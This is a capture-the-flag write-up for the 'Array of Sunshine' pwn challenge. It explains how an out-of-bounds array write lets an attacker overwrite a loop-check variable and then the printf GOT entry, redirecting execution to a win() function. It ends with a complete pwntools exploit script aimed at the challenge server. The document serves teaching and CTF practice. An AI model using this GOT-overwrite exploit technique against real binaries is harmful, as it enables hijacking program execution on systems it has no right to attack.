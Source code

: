 # Array of Sunshine

The challenge is to exploit an index out of bound write in a x64 binary.
The program asks for two inputs. The first defines the index of the fruits-array
and the second input writes into the memory of the specified index location:

![Basic Output](img1.png)

The program exits after the second input. However, if we take a look at the main function
we can see that there is a loop around the basket function:

![loop](img2.png)

The problem is, that after the second input, the program checks a magic-variable called
"printf_sym". If this magic variable is not 0x6, the programm jumps to the exit-function:

![exit](img3.png)

If we can somehow overwrite that variable with the value 0x6, the loop would work and we
can repeat the basket function. So the first thing we did, was to examine the memory down
from array[0]: 

![get the base address](img4.png)

We entered 0 into the first scanf and then we got an address to write to
in the second scanf. We used this address as our base and examined the memory in gdb:

![memup](img5.png)

As we can see, the variable "printf_sym" can be reached by increasing the index. By trial 
and error we figured out that the index to point to "printf_sym" is 10.

Now we are able to loop and repeat the basket function as often as we want. Next we need to
find a way to manipulate the execution flow. So we examined the memory again. This time we
decreased the addresses:

![memdown](img6.png)

And we found some got.plt locations:

![printf got](img7.png)

We can overwrite the printf@got.plt(index offset -12) with any address in the memory. The next time printf is
executed, the programm will jump to our address instead. So we were looking for some useful
functions and found the function "win":

![win function](img8.png)

The win() function executes system("cat flag.txt"). Thats exactly what we want to do. So lets
replace the print@got.plt-address with the address of the win-function:

```python
from pwn import p64
from pwn import *


def print_n_send(p, payload):
    print(payload)
    p.sendline(payload)


# p = process("./sunshine")
p = remote("chal.2023.sunshinectf.games", 23003)

target_address = 0x405020
fruits_base = 0x405080
win_function_addr = 0x0040128F

local_34_value = (target_address - fruits_base) // 8

p.recvuntil(b"\n\n")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))

print_n_send(p, str.encode("10"))
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, b"\x06\x00\x00\x00\x00\x00\x00\x00")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))
print_n_send(p, str(local_34_value).encode())
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, p64(win_function_addr))
print(p.recv())
```

![pwn](img9.png)

****..or you could just overwrite the exit@got.plt and do it in one round*
